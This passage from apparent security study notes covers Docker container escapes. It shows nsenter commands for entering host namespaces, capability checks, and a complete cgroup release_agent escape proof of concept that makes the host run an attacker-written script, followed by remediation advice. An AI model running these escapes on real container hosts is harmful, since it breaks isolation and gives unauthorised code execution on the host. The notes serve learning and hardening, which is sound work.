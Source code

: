 Namespaces segregate system resources, which on Linux assign to a namespace and process identifier.Every container will have unique namespace on the host machine. 

Find a namespace:
```bash
# Can we see namespaces from the host machine?
ps aux
```
We then mount the namespace of the process running outside of the container with a sh shell.
```bash
# namespace enter
nsenter --target $PID --mount sh
# --target $NAMESPACE 
# --mount # mount to the target namespace
# --uts # Share the same UTS namespace as target
# --ipc # Enter the Inter-process comunitcation namespace 
# --net # enter the network namespace
nsenter --target 1 --mount --uts --ipc --net /bin/bash
```

#### Misconfigured Privileges

If a docker container is running with privileged mode it bypasses the Docker engine and has direct communication with host OS. List container capabilities with:
```bash
capsh --print | grep # admin chroot sys_module sys_time
```
The commented out grep-ables indicate privilege mode. [Trailofbits PoC](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)
```bash
# On the host
# docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
 
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Remediation:
- Do not a Docker container run with the `--privileged` flag
- Do not run as root inside the container
- use `--cap-drop=all` - [Use the “no-new-privileges” security option](https://raesene.github.io/blog/2019/06/01/docker-capabilities-and-no-new-privs/)
- [Limit resources available to the container](https://docs.docker.com/engine/reference/run/#runtime-constraints-on-resources).
- Restrict actions and syscalls with [[SELinux]], [seccomp](https://docs.docker.com/engine/security/seccomp/), [AppArmor](https://docs.docker.com/engine/security/apparmor/)
- Use official images
- Regularly rebuild images to apply security patches
#### Escaping with a Exposed Docker Daemon
